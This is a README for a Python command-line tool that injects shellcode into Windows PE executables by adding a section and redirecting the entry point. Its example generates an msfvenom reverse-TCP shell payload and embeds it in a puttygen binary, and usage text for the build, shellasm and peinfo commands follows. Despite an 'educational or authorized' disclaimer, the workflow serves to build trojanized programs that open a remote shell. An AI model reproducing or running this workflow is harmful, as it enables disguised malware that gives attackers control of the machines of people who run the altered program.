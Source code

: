 # Exutils: A Small Collection of Python Scripts for Binary Analysis and Manipulation

## About

**This project is meant to be used for educational purposes only or for authorized purposes.**

This project is a work in progress. Not all features are integrated but now the following use cases are supported.
- Adding a new section and entering at that new section without restoration
- Adding a new section, jumping to that section, and restoring the original instructions

## Example

```
$ msfvenom -p windows/shell_reverse_tcp -o /path/to/payload/local.py LHOST=x LPORT=y -f python
## edit the local.py file and remove all the "python" portions so that it is just in /x00/x01/x02... format, new lines will be removed automatically
## save new verseion as local.txt
$ ./injectx86.py build -s txt:/path/to/payload/local.txt -f samples/puttygen-x86.exe --force --cave new-section -o /path/to/payloads/folder
``` 
## Usage

```
usage: injectx86.py [-h] {build,peinfo,shellasm} ...

Inject shellcode into new section

positional arguments:
  {build,peinfo,shellasm}
                        action
    build               build injected binary
    peinfo              get info about pefile
    shellasm            get asm from shellcode

optional arguments:
  -h, --help            show this help message and exit
```

### build;

Inject shellcode into a binary by creating a new section and changing the entrypoint via pefile. Attempts can be made to 'fix' the executable so that it restores the registers.

```
usage: injectx86.py build [-h] -s SHELLCODE -f FILE [-o OUTPUT] [-F] [--no-restore] [-c {auto,cave,new-section}] [-e {jump,new-section}]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLCODE, --shellcode SHELLCODE
                        shellcode to convert in \xAA\xBB format (can also pass: a python import path via 'py:somefile.someimporttarget', shellcode in \AA format in a file via 'txt:/path/to/file', and binary data in a file
                        via 'bin:/path/to/binary')
  -f FILE, --file FILE  path to source pe file
  -o OUTPUT, --output OUTPUT
                        path to newly created pe file
  -F, --force           force overwrite output
  --no-restore          do not fix the payload with popa and pusha
  -c {auto,cave,new-section}, --cave {auto,cave,new-section}
                        where to write the shellcode. defaults to auto
  -e {jump,new-section}, --enter {jump,new-section}
                        how to handle the entrypoing. defaults to 'jump' where the executable uses 'jmp' to move to new section

```

### shellasm

Convert shellcode to assembly via capstone

```
usage: injectx86.py shellasm [-h] -s SHELLCODE [-a {x86}] [-m {x32,x64}] [-S START]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLCODE, --shellcode SHELLCODE
                        shellcode to convert in \xAA\xBB format (can also pass: a python import path via 'py:somefile.someimporttarget', shellcode in \AA format in a file via 'txt:/path/to/file', and binary data in a file
                        via 'bin:/path/to/binary')
  -a {x86}, --arch {x86}
                        architecture (default: x86)
  -m {x32,x64}, --mode {x32,x64}
                        mode (default: 64)
  -S START, --start START
                        start in hex or decimal format (default: 0x1000)

```

### peinfo

Get basic info from a PE using pefile

```
usage: injectx86.py peinfo [-h] -f FILE [-i {all,sections,imported,exported,dump,entry,start}]

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  path to pe file
  -i {all,sections,imported,exported,dump,entry,start}, --info {all,sections,imported,exported,dump,entry,start}
                        information to show

```

### Shoulders of Giants:

- https://github.com/rmadair/PE-Injector/blob/master/pe-injector.py
- https://axcheron.github.io/code-injection-with-python/#adding-the-section-header
- https://github.com/v-p-b/peCloakCapstone
- https://github.com/secretsquirrel/the-backdoor-factory
- https://nightcr4wl3r.blogspot.com/2017/11/automating-backdoor-creation-for-pe.html
